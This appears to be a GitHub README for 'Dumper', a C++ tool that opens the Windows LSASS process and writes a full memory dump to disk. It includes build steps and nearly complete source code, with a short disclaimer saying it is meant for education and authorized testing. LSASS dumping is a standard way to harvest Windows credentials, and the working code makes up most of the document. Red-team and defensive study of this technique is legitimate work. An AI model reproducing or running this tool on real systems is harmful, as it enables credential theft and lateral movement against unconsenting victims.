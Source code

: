 # DUMPER
Dumper is a tool designed to create a memory dump of the LSASS (Local Security Authority Subsystem Service) process on a Windows machine. This tool utilizes NT API functions and the MiniDumpWriteDump function to capture the process memory.

## Features
Check if the tool is running with elevated privileges.
Enable debug privileges to access sensitive process information.
Capture a memory dump of the LSASS process using MiniDumpWriteDump.

## Requirements
Windows OS
Visual Studio (or any compatible C++ compiler)
Administrative privileges to run the tool

## Setup
Clone the Repository

```bash
git clone https://github.com/yourusername/Dump3r.git
cd Dump3r
```
Open Project in Visual Studio
Open DUMPER.sln.sln in Visual Studio.
Compile the Project
Build the solution by clicking on Build -> Build Solution.

### Usage
Run as Administrator
Make sure to run the compiled executable with administrative privileges.

Command Line Arguments
Currently, the tool does not accept any command line arguments. Simply running the executable will perform the memory dump.

### Output

The memory dump will be saved in the same directory as Raulisr00t.file.

### Code Overview
#### Main code
```cpp
int main(int argc, char* argv[]) {
    // Load NT API functions
    if (!LoadNtApi()) {
        cerr << "\t\t[!] Failed to load NT API functions" << endl;
        return 1;
    }

    // Check for elevated privileges
    if (!isElevated()) {
        cerr << "\t\t[!] Please run this tool with admin privileges" << endl;
        return 1;
    }

    // Enable debug privileges
    if (!EnableDebugPrivilege()) {
        cerr << "\t\t[!] Failed to enable debug privileges" << endl;
        return 1;
    }

    // Get the process ID of LSASS
    DWORD pid = GetPID(L"lsass.exe");
    if (pid == 0) {
        cerr << "\t\t[!] Invalid Process. Try Again." << endl;
        return 1;
    }

    // Open the LSASS process
    HANDLE hLsass = NULL;
    OBJECT_ATTRIBUTES objAttr;
    UNICODE_STRING processName;
    CLIENT_ID clientId;

    RtlInitUnicodeString(&processName, L"lsass.exe");
    InitializeObjectAttributes(&objAttr, &processName, OBJ_CASE_INSENSITIVE, NULL, NULL);
    clientId.UniqueProcess = ULongToHandle(pid);
    clientId.UniqueThread = NULL;

    NTSTATUS status = NtOpenProcess(&hLsass, PROCESS_QUERY_INFORMATION | PROCESS_VM_READ, &objAttr, &clientId);
    if (status != STATUS_SUCCESS) {
        cerr << "\t\t[!] Failed to open Process with Native API" << endl;
        return 1;
    }

    // Create the dump file
    TCHAR szFileName[MAX_PATH];
    _stprintf_s(szFileName, MAX_PATH, _T("Raulisr00t.file"));

    HANDLE hFile = CreateFile(szFileName, GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
    if (hFile == INVALID_HANDLE_VALUE) {
        cerr << "\t\t[!] Unable to create file" << endl;
        NtClose(hLsass);
        return 1;
    }

    // Write the dump
    MINIDUMP_EXCEPTION_INFORMATION dumpExInfo;
    dumpExInfo.ThreadId = GetCurrentThreadId();
    dumpExInfo.ExceptionPointers = NULL;
    dumpExInfo.ClientPointers = FALSE;

    BOOL result = MiniDumpWriteDump(hLsass, pid, hFile, MiniDumpWithFullMemory, &dumpExInfo, NULL, NULL);
    if (!result) {
        cerr << "\t\t[!] Failed to Dump Process Memory" << endl;
    } else {
        cout << "\t\t[!] Process memory dumped successfully" << endl;
    }

    // Cleanup
    NtClose(hLsass);
    CloseHandle(hFile);

    return 0;
}
```
#### NtApi header
```cpp
#pragma once

#include <Windows.h>

#define STATUS_SUCCESS 0
#define OBJ_CASE_INSENSITIVE 0x00000040L

#define FILE_OVERWRITE_IF 0x00000005
#define FILE_SYNCHRONOUS_IO_NONALERT 0x00000020
typedef LONG KPRIORITY;

#define InitializeObjectAttributes( i, o, a, r, s ) {    \
      (i)->Length = sizeof( OBJECT_ATTRIBUTES );         \
      (i)->RootDirectory = r;                            \
      (i)->Attributes = a;                               \
      (i)->ObjectName = o;                               \
      (i)->SecurityDescriptor = s;                       \
      (i)->SecurityQualityOfService = NULL;              \
   }

typedef struct _UNICODE_STRING {
    USHORT Length;
    USHORT MaximumLength;
    PWSTR  Buffer;
} UNICODE_STRING, * PUNICODE_STRING;

typedef const UNICODE_STRING* PCUNICODE_STRING;

typedef struct _WIN_VER_INFO {
    WCHAR chOSMajorMinor[8];
    DWORD dwBuildNumber;
    UNICODE_STRING ProcName;
    HANDLE hTargetPID;
    LPCSTR lpApiCall;
    INT SystemCall;
} WIN_VER_INFO, * PWIN_VER_INFO;

typedef struct _OBJECT_ATTRIBUTES {
    ULONG Length;
    HANDLE RootDirectory;
    PUNICODE_STRING ObjectName;
    ULONG Attributes;
    PVOID SecurityDescriptor;
    PVOID SecurityQualityOfService;
} OBJECT_ATTRIBUTES, * POBJECT_ATTRIBUTES;

typedef struct _CLIENT_ID {
    HANDLE UniqueProcess;
    HANDLE UniqueThread;
} CLIENT_ID, * PCLIENT_ID;

typedef enum _SYSTEM_INFORMATION_CLASS {
    SystemBasicInformation,
    SystemProcessorInformation,
    SystemPerformanceInformation,
    SystemTimeOfDayInformation,
    SystemPathInformation,
    SystemProcessInformation,
    SystemCallCountInformation,
    SystemDeviceInformation,
    SystemProcessorPerformanceInformation,
    SystemFlagsInformation,
    SystemCallTimeInformation,
    SystemModuleInformation
} SYSTEM_INFORMATION_CLASS, * PSYSTEM_INFORMATION_CLASS;

typedef struct _SYSTEM_PROCESSES {
    ULONG NextEntryDelta;
    ULONG ThreadCount;
    ULONG Reserved1[6];
    LARGE_INTEGER CreateTime;
    LARGE_INTEGER UserTime;
    LARGE_INTEGER KernelTime;
    UNICODE_STRING ProcessName;
    KPRIORITY BasePriority;
    HANDLE ProcessId;
    HANDLE InheritedFromProcessId;
} SYSTEM_PROCESSES, * PSYSTEM_PROCESSES;

typedef struct _IO_STATUS_BLOCK {
    union {
        LONG Status;
        PVOID Pointer;
    };
    ULONG Information;
} IO_STATUS_BLOCK, * PIO_STATUS_BLOCK;

inline void RtlInitUnicodeString(PUNICODE_STRING DestinationString, PCWSTR SourceString) {
    if (SourceString) {
        size_t length = wcslen(SourceString) * sizeof(WCHAR);
        DestinationString->Length = static_cast<USHORT>(length);
        DestinationString->MaximumLength = static_cast<USHORT>(length + sizeof(WCHAR));
        DestinationString->Buffer = const_cast<PWSTR>(SourceString);
    } else {
        DestinationString->Length = 0;
        DestinationString->MaximumLength = 0;
        DestinationString->Buffer = nullptr;
    }
}

typedef NTSTATUS(NTAPI* _NtOpenProcess)(PHANDLE, ACCESS_MASK, POBJECT_ATTRIBUTES, PCLIENT_ID);
typedef NTSTATUS(NTAPI* _NtClose)(HANDLE);
extern _NtOpenProcess NtOpenProcess;
extern _NtClose NtClose;
```
## License
This project is licensed under the MIT License. See the LICENSE file for more details.

## Disclaimer
This tool is intended for educational and authorized testing purposes only. Unauthorized use of this tool is strictly prohibited. The author is not responsible for any misuse or damage caused by this tool.
